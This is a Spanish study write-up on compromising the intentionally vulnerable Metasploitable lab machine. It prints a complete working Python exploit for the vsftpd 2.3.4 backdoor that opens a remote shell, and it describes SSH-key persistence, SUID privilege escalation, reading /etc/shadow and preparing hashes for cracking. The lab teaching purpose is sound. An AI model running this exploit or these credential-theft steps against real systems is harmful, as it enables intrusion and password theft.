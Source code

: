 ```yaml
---
{"dg-publish":true,"permalink":"/linux/metasploitable/"}
---
```



Es una `máquina` diseñada para para probar herramientas de `seguridad` y demostrar `vulnerabilidades` comunes.

- SO: Ubuntu Linux
- Vulnerabilidades intencionadas

---
## Que es una IP?

Una dirección `IP` es un identificador numérico único asignado a cada dispositivo conectado a una red, funciona como una especie de "*dirección*" para que los dispositivos puedan encontrarse y comunicarse entre sí dentro de la `red`. También es posible cambiar una dirección IP, dependiendo de si se trata de una IP `pública` o `privada`.

- IP pública: Una dirección que identifica tu red
- IP privada: Una dirección que identifica un dispositivo

![Pasted image 20250615181619.png](/img/user/imgs/Pasted%20image%2020250615181619.png)

## Que es ARP?

`ARP` es un *protocolo* que se utiliza para asignar direcciones `MAC` a direcciones IP en una red de área local (LAN). Esto funciona como un `traductor/intérprete` entre el protocolo de internet (IP) y la capa de enlace de datos (MAC). Es esencial para que los dispositivos se comuniquen dentro de la red, ya que las direcciones IP son lógicas y las direcciones MAC son físicas.
![Pasted image 20250615193448.png](/img/user/imgs/Pasted%20image%2020250615193448.png)

## Que es el ARP-SCAN?

Ya hablamos del protocolo ARP, ahora vamos a ver la herramienta utilizada para los protocolos ARP.
Es una herramienta de línea de comandos que se utiliza para descubrir hosts en una red local enviando paquetes `Addres Resolution Protocol` y analizando sus respuestas. Permitiendo a los usuarios identificar dispositivos activos y sus direcciones MAC y IP dentro de la red.

##### Como funciona?
- Si un dispositivo en la red está utilizando esa dirección IP, responderá con una solicitud ARP de vuelta, indicando su dirección MAC.
- `arp-scan` recopila estas respuestas y muestra la información del dispositivo, incluyendo su dirección IP y MAC.
- Envía solicitud ARP con la dirección IP de destino a cada dirección IP dentro de un rango especificado

Ejemplo:
![Pasted image 20250615194102.png](/img/user/imgs/Pasted%20image%2020250615194102.png)

---

## Que es Netcat?

`Netcat` es una herramienta de línea de comandos que sirve para escribir y leer datos en la red. Conocida por ser la `navaja suiza de las redes` debido a que podemos hacer transferencia de datos a través de los protocolos `TCP/UDP`, su funcionamiento depende de que la comunicación IP entre dispositivos esté correctamente establecida. Aquí es donde entra el protocolo ARP (`Address Resolution Protocol`), que trabaja en la capa de enlace de datos. ARP se encarga de resolver direcciones IP a direcciones MAC dentro de una red local. Cuando usas *Netcat* para conectarte a otra máquina en la misma red, primero se realiza una consulta ARP para saber a qué dirección MAC enviar los paquetes. Sin una resolución ARP exitosa, la conexión de Netcat no podría establecerse.

Ejemplo
![Pasted image 20250615195303.png](/img/user/imgs/Pasted%20image%2020250615195303.png)

---

## Escaneo y Enumeración:

Usaremos NMAP para para escanear los puertos abiertos y así poder identificar servicios en ejecución.

![Pasted image 20250615200116.png](/img/user/imgs/Pasted%20image%2020250615200116.png)

Como vector de ataque podríamos probar la versión del FTP en el cual si buscamos en internet tenemos varios documentos e informes acerca de la vulnerabilidad `vstftpd 2.3.4` en el cuál el exploit consiste en un `backdoor` que fue introducido por un atacante en el código fuente oficial del servidor FTP vsftpd. Este exploit permite al atacante obtener una shell remota en el servidor vulnerable.

código del exploit:
``` python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

```

### Claves ID_RSA?
Es una clave privada del protocolo SSH, utilizado para autenticarse sin necesidad de una contraseña. Esto mismo sería para aplicar persistencia en la máquina.
![Pasted image 20250615204510.png](/img/user/imgs/Pasted%20image%2020250615204510.png)

Para ello, luego de mantener persistencia en la máquina podríamos elevar privilegios de manera local.

Como recurso de escalado de privilegios tenemos esta página llamada [GTFoBins](https://gtfobins.github.io) y [HackTricks](https://book.hacktricks.wiki/es/index.html) para múltiples técnicas de Hacking Ético.

Ejemplo de explotación de binarios SUID:
![Pasted image 20250615205929.png](/img/user/imgs/Pasted%20image%2020250615205929.png)

En la página de GTFoBins, tenemos varias técnicas de explotación de binarios SUID para buscar cual es la más acorde para escalar privilegios.

![Pasted image 20250615210130.png](/img/user/imgs/Pasted%20image%2020250615210130.png)

Luego de copiar el SUID correcto, queda elevar nuestros privilegios:
![Pasted image 20250615210243.png](/img/user/imgs/Pasted%20image%2020250615210243.png)
Y listo, ya somos ROOT, pero? no sabemos la contraseña de ROOT, ya que ahora tenemos privilegios máximos en el sistema podemos leer el archivo **/etc/shadow**

![Pasted image 20250615210515.png](/img/user/imgs/Pasted%20image%2020250615210515.png)
Y si nos damos cuenta la contraseña esta formato **HASH**, a lo cual nosotros tendremos que intentar fusionar los archivos `/etc/passwd` y `/etc/shadow` para que pueda ser entendido por herramientas de `crackeo de contraseñas` por ejemplo, `John The Ripper` y/o `Hashcat`, etc. Lo podemos realizar con el comando *unshadow*.

Luego podríamos almacenar estas credenciales obtenidas en unas notas de nuestra maquina principal por si en algún momento queremos mantener la persistencia del usuario ROOT.

## Que aprendimos?

Aprende que no todos las aplicaciones son seguras realmente, pudimos ingresar al protocolo `FTP` mediante un exploit que está en internet (*debido a que una empresa fue comprometida externamente*) más especifico mediante un `Backdoor` y hemos logrado mantener persistencia dentro de la maquina, haciendo uso de llaves privadas ID_RSA, luego intentamos elevar nuestros privilegios a lo cual mediante los SIUD mal configurados logramos obtener acceso máximo como ROOT y logramos leer las contraseñas de todos los usuarios de la máquina.


![fin.gif](/img/user/fin.gif)
